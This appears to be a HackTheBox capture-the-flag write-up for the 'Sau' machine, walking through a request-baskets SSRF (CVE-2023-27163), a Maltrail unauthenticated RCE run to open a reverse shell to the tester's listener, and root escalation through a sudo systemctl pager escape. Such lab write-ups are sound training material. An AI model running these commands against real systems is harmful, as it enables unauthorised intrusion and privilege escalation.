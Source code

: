 ```yaml
---
title: Sau
tags:
  - HackTheBox
  - Easy
  - Linux
  - Request-Baskets
  - Maltrail
  - CVE
  - Sudo-Vulnerability
date: 2025-02-03T00:00:00Z
---
```

![](Pasted%20image%2020250203221254.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.224 sau.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- sau.htb > sC.txt

[redacted]
PORT      STATE    SERVICE
22/tcp    open     ssh
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
```

So I decided to check what was inside port `55555`:

![](Pasted%20image%2020250203221622.png)

The page seems to be using request-baskets v1.2.1:

![](Pasted%20image%2020250203221654.png)

## Weaponization

>[!Info]
>*Request Baskets is a web service designed to collect and inspect arbitrary HTTP requests through a RESTful API or a simple web user interface*

I searched for "*request-baskets* 1.2.1 exploit" and found [CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163). 

## Exploitation

I'll create a new basket called `gitblanc`:

![](Pasted%20image%2020250203222706.png)

![](Pasted%20image%2020250203222720.png)

It gave me a token: `4clZ0l4ohziKAWm4BqKq7JuNoboz7eipYil54ruuiqxE`

Now I set up a Netcat listener:

```shell
nc -lvp 666
```

Now I'll click on the settings menu and test the connection:

![](Pasted%20image%2020250203223018.png)

I'll enter my ip:

![](Pasted%20image%2020250203223203.png)

> I received the request in my nc listener :D

![](Pasted%20image%2020250203223232.png)

Now I can try to check what is running inside port 80 by editing the proxy configuration:

![](Pasted%20image%2020250203223512.png)

Now I can browse it like `http://sau.htb:55555/gitblanc`:

![](Pasted%20image%2020250203223638.png)

## Weaponization

I searched for "*maltrail 0.53 exploit*" and got [Unauthenticated RCE](https://github.com/spookier/Maltrail-v0.53-Exploit)

## Exploitation

I executed the script:

```shell
python3 exploit.py 10.10.14.21 666 http://sau.htb:55555/gitblanc
```

> Got a shell :D

![](Pasted%20image%2020250203224053.png)

### User flag

![](Pasted%20image%2020250203224214.png)

## Privilege Escalation

If we run `sudo -l`:

```shell
sudo -l

[redacted]
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

I checked `systemctl` version with:

```shell
systemctl --version
```

Got v245. Therefore I checked for "*systemctl 245 exploit*" and got [CVE-2023–26604](https://medium.com/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7)

![](Pasted%20image%2020250203225041.png)

So I executed:

```shell
sudo -u root /usr/bin/systemctl status trail.service
# Then 
!sh
```

> Now I'm root :D

![](Pasted%20image%2020250203225230.png)

### Root flag

![](Pasted%20image%2020250203225301.png)

==Machine pwned!==